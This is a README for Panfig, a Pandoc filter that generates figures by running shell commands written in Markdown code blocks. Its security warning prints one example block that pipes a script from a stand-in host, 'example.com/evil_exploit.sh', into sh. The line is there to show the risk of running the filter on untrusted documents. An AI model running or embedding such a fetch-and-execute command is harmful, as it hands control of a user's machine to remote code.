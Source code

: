 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for God's sake, be careful.
-------------------------------------

I am putting this here because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
